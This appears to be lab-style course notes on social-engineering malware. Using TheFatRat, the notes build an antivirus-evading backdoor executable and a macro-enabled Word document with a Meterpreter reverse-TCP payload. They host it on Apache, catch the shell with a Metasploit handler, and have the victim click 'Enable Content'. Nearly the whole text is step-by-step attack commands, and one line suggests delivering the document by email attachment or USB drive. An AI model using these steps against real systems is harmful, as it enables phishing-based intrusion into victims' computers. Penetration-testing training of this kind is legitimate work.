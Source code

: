 - Social engineering is one of hackers’ most typically used attacks. As recent trends suggest, many big organizations fall victim to this attack vector. The attackers trick an employee of a workplace into clicking links in a legitimate-looking document, which turns out to be malicious and can even evade anti-virus programs.

- TheFatRat is an exploitation tool that compiles malware with a popular payload that can then be executed on Windows, Android, and Mac OSes. The software offers an easy way to create backdoors and payloads that can bypass most anti-viruses.
- Open terminal
	> fatrat
	> 6 (**Create Fud Backdoor 1000% with PwnWinds [Excelent]**)
	> 3 (**Create exe file with apache + Powershell (FUD 100%)**)
	> enter #hostip (for set LHOST)
	> 4444 (for set LPORT)
	
		- For the **Please enter the base name for output files** option,
	> payload
	> 3 (For the **Choose Payload** option, choose **windows/meterpreter/reverse_tcp**)

		- To navigate to the **root** directory, click **Places** from the top-section of the **Desktop** and click **Home Folder** from the drop-down options. The **attacker** window appears, click **File System** from the left-pane and then double-click **root** from the right-pane.
		- **TheFatRat** generates a **payload.exe** file located at **root/Fatrat_Generated**.
		- now back to terminal
	> 9 (for back to menu)
	> 7 (**Create Backdoor For Office with Microsploit**)
	> 2 (**The Microsoft Office Macro on Windows**)
	> enter #hostip (for set LHOST)
	> 4444 (for set LPORT)
	> Enter filename (BadDoc)
	> type message
	> y
	> /root/Fatrat_generated/filename.exe (for path option)
	> 3 (for choose payload, choose **windows/meterpreter/reverse_tcp**)
	
	- Now open new terminal
		> cp /root/Fatrat_Generated/BadDoc.docm (filename) /var/www/html/share

			 - Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it via an attachment in the email or through physical means such as a hard drive or pen drive.
		> service apache2 start (to start apache service)
		> msfconsole (to open metasploit framework)
		> use exploit/multi/handler

		- Now, we need to set the payload, LHOST, and LPORT. To do so, use the below commands:
			> set payload windows/meterpreter/reverse_tcp
			> set LHOST #hostip 
			> set LPORT 4444
			> exploit
			
		- Now go to windows machine, i.e, target machine
		- enter http://#hostip/share in a browser
		- download Baddoc.docm and run it
		- A **Microsoft Word** document appears with the file in **PROTECTED VIEW**. Click **Enable Editing**.
		- A **SECURITY WARNING** appears; click **Enable Content**.
		- now go back to linux host machine and notice session created or opened in meterpreter shell
		- type sysinfo to view system details of exploited computer.